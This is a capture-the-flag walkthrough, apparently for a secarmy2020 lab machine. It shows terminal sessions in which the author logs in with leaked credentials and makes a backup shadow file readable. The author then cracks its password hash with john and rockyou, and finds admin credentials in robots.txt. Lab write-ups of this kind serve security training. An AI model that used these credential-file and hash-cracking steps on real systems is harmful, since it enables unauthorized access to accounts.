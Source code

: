 Here is the output:

```
root@kali:~/ctf/secarmy2020/QR# python3 photo-grabber.py 
Hello and congrats for solving this challenge, we hope that you enjoyed the challenges we presented so far. It is time for us to increase the difficulty level and make the upcoming challenges more challenging than previous ones. Before you move to the next challenge, here are the credentials for the 5th user: cinco:ruy70m35 head over to this user and get your 5th flag! goodluck for the upcoming challenges! 

root@kali:~/ctf/secarmy2020# ssh 192.168.1.152 -l cinco

cinco@svos:~$ cat flag5.txt 
Congratulations! Here's your 5th flag segment: flag5{b1e870}
cinco@svos:~$ cat readme.txt 
Check for Cinco's secret place somewhere outside the house

cinco@svos:/cincos-secrets$ ls
hint.txt  shadow.bak
cinco@svos:/cincos-secrets$ cat hint.txt 
we will, we will, ROCKYOU..!!!
cinco@svos:/cincos-secrets$ cat shadow.bak 
cat: shadow.bak: Permission denied
cinco@svos:/cincos-secrets$ file shadow.bak 
shadow.bak: writable, regular file, no read permission
cinco@svos:/cincos-secrets$ chmod +r shadow.bak 
cinco@svos:/cincos-secrets$ cat shadow.bak 
...
seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::

root@kali:~/ctf/secarmy2020# john seis.hash --wordlist=~/rockyou.txt
...
Hogwarts         (seis)

seis@svos:~$ cat flag6.txt 
Congratulations! Here's your 6th flag segment: flag6{779a25}
seis@svos:~$ cat readme.txt 
head over to /shellcmsdashboard webpage and find the credentials!
```

There is a very basic login form at http://192.168.1.152/shellcmsdashboard/index.php. I considered brute-forcing it with hydra (which would've worked with rockyou wordlist), but first checked robots.txt: http://192.168.1.152/shellcmsdashboard/robots.txt.

```
# Username: admin Password: qwerty
User-agent: *
Allow: /
```

Entering those credentials, a line appears: `head over to /aabbzzee.php`. At http://192.168.1.152/shellcmsdashboard/aabbzzee.php there is a User Search form. I tried all the usernames on the box to no avail. I then realized this would all be hosted from /var/www/, and I could potentially get more info there.
